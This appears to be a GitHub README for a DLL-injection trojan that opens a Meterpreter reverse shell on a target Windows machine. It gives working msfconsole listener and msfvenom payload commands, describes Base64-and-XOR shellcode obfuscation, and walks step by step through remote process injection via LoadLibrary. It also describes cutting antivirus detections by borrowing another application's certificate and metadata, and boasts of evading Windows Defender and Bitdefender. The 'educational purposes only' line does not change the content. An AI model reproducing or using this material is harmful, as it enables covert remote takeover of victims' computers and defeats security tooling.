 # Remote Dll injector Trojan
Undetected trojan using dll injection of a custom library that spawns a shell on a target machine, undetected by Windows defender and Bitdefener.
This code is for educational purposes only, do not use it for any malicious or unauthorized activity.

# 💻 Code

This malware injects a malicious library into a target process or directly creates a process and uploads the library into it, the dll contains a simple encoded base64 data that spawns a reverse shell.

### 0) Listener and payload

- First i used the classic multi handler exploit to run the payload: 
``` msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost XXX; set lport XXX; exploit" ```

- The payload is a simple base64 shellcode, it's reccomended to use shigata_ga_nai alternatives since its easy to detect:
``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=XXX LPORT=XXXX  -e x86/shikata_ga_nai -f c  ```. 

- Once we have the shellcode we load it into the ```encrypter.c```  file, where the binary data is converted into Base64, try to use a custom base64_chars set instead of the standard Base64 alphabet to obfuscate more, secondly XOR encryption is applied using a single-byte key, and finally we convert it into its hexadecimal string representation.

### 1) DLL
The malicious library contains 4 different call cases, process attach/detach, and thread create/delete, the best one is in my opinion the first one. When the library is attached to the process, it runs arbitrary code, in the sample there is a simple windows message box, in the ```dll-shell``` the code decodes the previously obfuscated data and uploads the shellcode containing the reverse shell to memory. You can create a dll on Visual Studio by making a new project and selecting the dll template, also rememeber to build both the dll and the injector in release mode and in the same architecture.

### 2) Local Injection

The local injection takes the dynamic library which is already located into the disk (basically useless, just a sample), creates a process and injects the library into it. Here is a detailed explanation: 

- First we locate the dll and we load it into the same process that runs it; 
- Then we create a thread and execute whatever we want, for example calling a function from inside the dll or running multiple tasks;

Because our dll is executed by the main function of our process, the thread isn't mandatory, you can use it for example to call a function from the dll if it needs to run in the background or loop continuously. 

### 2.1) Remote Injection

The remote injection dumps the dynamic library into disk (might get detected tho as anything that gets written into disk is automathically scanned by the antivirus), looks for a specific process and injects the library into it. Here is a detailed explanation: 

- First of all we put the malicious dll in the same folder as the injector, we create a resource file and its header and we set the dll as a resource of the injector;
- Secondly on the injector we locate the resource file, calculate its size, upload it to memory, and lock it for access so it can be used without being moved;
- Thirdly we extract the dll from the executable and write it to disk;
- We find a process by PID, allocate memory the size of the dll path inside of it and write the path into the process;
- Then we get the base address of kernel32 dll to get the pointer of the function which will load the malicious library;
- Finally we create a thread that executes the function that loads the malicious dll;
- The Dll decodes the data and uploads it to memory, creating the shell;

Extracting the dll and uploading to disk is risky tho, in the future i will find some ways to upload it directly to memory without being scanned.

# 🛡 Obfuscation and AV Detection 

<img align="right" src="media/av1.png" width="340" />

Both codes are undetected by Windows defender. The remote injection exe on virustotal got 10 detections, but using a simple certificate and metadata manager like Process Hacker (free an open source) i uploaded the data of a common app (in my case it was github desktop setup) and the AVs detections went from 10 to 1 in an instant, and for the first time Bitdefender didn't flag it as suspicious 😀!!! The file went from a few kilobytes to like 10mb tho so i think i'll have to work on that, maybe by embedding only the essential metadata and certificates.

<img align="left" src="media/av4.png" width="540" />
